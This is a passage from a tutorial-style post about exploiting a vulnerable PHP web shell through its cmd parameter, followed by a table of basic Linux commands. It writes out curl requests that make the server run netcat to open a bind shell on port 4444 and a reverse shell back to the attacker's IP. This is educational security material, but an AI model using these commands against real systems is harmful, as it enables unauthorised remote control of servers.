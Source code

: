 In this case, the attacker could send a GET request to the vulnerable web application with a specific cmd parameter. For instance, to run a Linux command like ls or cat, the attacker would send a request like the following:

![image](https://hackmd.io/_uploads/B12ze4MOyx.png)

It may lets some attacker to use some shell techniques to manipulate the server like bind shell or reverse shell that I mentioned before. The attacker can use curl to send a GET request to the vulnerable PHP script on the web server with a cmd parameter that starts a bind shell. The command will look like this:

`curl 192.168.1.21/exploit.php?cmd=nc%20-lvnp%204444%20-e%20/bin/bash` 

![image](https://hackmd.io/_uploads/HJE_ZVfdJe.png)

Once the attacker sends this request, the web server will open port 4444 and wait for an incoming connection. The attacker can now connect to this port remotely and have full access to the victim's shell.

To exploit a vulnerable web shell for a reverse shell, the attacker would send a request like this:

`curl 192.168.1.21/exploit.php?cmd=nc%20192.168.1.8%204444%20-e%20/bin/bash`

![image](https://hackmd.io/_uploads/ryalb4zO1g.png)

In this case, the victim machine will connect to the attacker's IP address (192.168.1.8) on port 4444 and establish a reverse shell. The attacker now has access to the victim machine's shell, and they can run commands remotely.



{%< alert >%}
The choice to use a reverse shell or a bind shell will, therefore, be determined by configurations of the network, the firewall, and the extent of access the attacker has to the target machine.
{%< /alert >%}

## Some shell commands

|Command | 	Description	Example Usage|
|-----|:-----:|
|ls |	List the files and directories in the current directory	|
|ls -l|	List files in long format|
|ls -a|	List all files, including hidden files|
|ls -lh|	List files in long format with human-readable file sizes|
|ls -R|	Recursively list all subdirectories|
|||
|cd|	Change the current directory to the user's home directory	|
|cd /path/to/directory|	Change the current directory to a specific directory|
|cd ..	|Move up one level in the directory structure|
|cd -	|Change the current directory to the previous directory|
|||
|mkdir	|Create a new directory	|
|mkdir directory|	Create a directory with the given name in the current directory|
|mkdir -p /path/to/directory	|Create a directory along with its parent directories|
|mkdir -m 777 directory	|Create a directory with the given permissions|
|||